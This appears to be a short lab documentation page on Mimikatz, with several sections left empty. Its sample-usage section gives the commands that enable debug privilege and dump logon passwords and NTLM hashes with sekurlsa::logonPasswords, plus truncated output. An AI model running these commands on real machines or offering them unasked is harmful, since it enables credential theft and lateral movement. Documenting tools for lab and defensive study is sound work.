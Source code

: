 ```yaml
---
title: "Mimikatz"
date: 2020-08-13T17:21:36-07:00
draft: false
weight: 7
---
```


![](../../images/mimikatz.png)

## Description
Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets. 

## Purpose

## Configuration Details

## Sample Usage
Start command prompt, navigate to Mimikatz directory and start Mimikatz console:
```bash
cd c:\tools\mimikatz\x64\ && mimikatz.exe
```
Debugger mode
```bash
mimikatz # privilege::debug
Privilege "20" OK
```
Module sekurlsa - Dumping logon passwords / NTLM hash
```bash
mimikatz # sekurlsa::logonPasswords

Authentication Id : 0 ; 231234 (00000000:0003a1a7)
Session : Interactive from 1
UserName : Vagrant
....
```

## Data Location

## External Links
[Mimikatz on Github](https://github.com/gentilkiwi/mimikatz)